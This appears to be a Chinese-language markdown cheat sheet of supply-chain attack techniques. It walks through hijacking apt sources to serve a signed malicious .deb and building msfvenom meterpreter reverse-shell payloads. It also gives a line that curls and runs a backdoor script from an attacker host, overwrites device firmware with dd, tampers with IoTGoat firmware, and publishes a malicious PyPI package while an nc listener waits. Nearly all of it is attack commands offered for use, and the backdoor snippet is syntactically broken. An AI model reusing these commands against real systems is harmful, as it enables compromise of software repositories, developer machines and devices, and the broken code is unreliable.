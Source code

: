 ### 安装源劫持

```bash
cat /etc/apt/sources.list
echo "deb http://IP地址或域名/repo/ ./" > /etc/apt/sources.list
mkdir -p /var/www/html/repo
```


repo目录里创建一个package目录，并在该目录里创建etc和DEBIAN目录

```bash
├── package
│   ├── etc
│   │   ├── linux_shell
│   │   └── hello.py
│   └── DEBIAN
│       └── control
```

linux_shell:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f elf > linux_shell
```

[control](供应链攻击/control)

```bash
cd repo
dpkg-deb --build package
```

[Release](供应链攻击/Release)

```bash
apt-get install gnupg
gpg --gen-key
dpkg-scanpackages . /dev/null | gzip -9c > Packages.gz
gpg --default-key "密钥ID" -abs -o - Release > Release.gpg
gpg --default-key "密钥ID" --clearsign -o InRelease Release
gpg --export -a "密钥ID" > public.key
```

```bash
apt-key add public.key
sudo apt update && sudo apt upgrade
```

### 软件后门

[backdoor.py](供应链攻击/backdoor.py)

注入后门

```bash
import os

//替换为攻击者地址
os.system("curl -O http://IP地址或域名/backdoor.py" && python backdoor.py)
```

### 纂改硬件设备

```bash
firmware-extractor --device /dev/sdX
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f raw > malicious.bin
dd if=malicious.bin of=网卡固件 bs=1 seek=$OFFSET conv=notrunc
dd if=恶意固件 of=/dev/sdX
```

[IoTGoat](https://github.com/OWASP/IoTGoat/releases/tag/v1.0)

```bash
binwalk -ev IoTGoat-raspberry-pi2.img --run-as=root
```

[firmwalker](https://github.com/craigz28/firmwalker)

```bash
./firmwalker.sh /root/hardware/_IoTGoat-raspberry-pi2.img.extracted/squashfs-root
/etc/passwd | /etc/shadow
```

[/etc/rc.local](供应链攻击/rc.local)

```bash
cd squashfs-root
mksquashfs . ../new_filesystem.squashfs
```

```bash
binwalk IoTGoat-raspberry-pi2.img
cd _IoTGoat-raspberry-pi2.img.extracted
dd if=new_filesystem.squashfs of=../IoTGoat-raspberry-pi2.img bs=512 seek=57344 conv=notrunc
```

### 调用资源劫持

[malicious_package \ __init__.py](供应链攻击/__init__.py)

[malicious_package \ malicious_module.py](供应链攻击/malicious_module.py)

[setup.py](供应链攻击/setup.py)

```bash
├── README.md
├── setup.py
├── malicious_package
│   ├── __init__.py
│   ├── malicious_module.py
```

```bash
pip install setuptools wheel
python setup.py sdist bdist_wheel
```

[test.pypi.org](https://test.pypi.org)

```bash
pip install twine
twine upload --repository testpypi dist/* --verbose
pip install -i https://test.pypi.org/simple/ malicious-package
nc -lvp 4444
```

```python
from malicious_package import exploit
exploit()
```
